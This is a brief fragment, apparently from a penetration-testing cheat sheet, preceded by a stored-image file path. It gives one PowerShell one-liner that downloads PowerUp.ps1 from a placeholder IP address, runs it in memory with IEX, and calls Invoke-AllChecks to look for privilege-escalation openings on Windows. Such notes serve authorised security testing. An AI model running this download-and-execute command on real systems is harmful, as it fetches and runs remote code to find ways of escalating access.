 # Windows - Powershell

```powershell "IEX (New-Object Net.WebClient).DownloadString('<ip_address>/PowerUp.ps1'); Invoke-AllChecks" ```

Run PowerUp on system
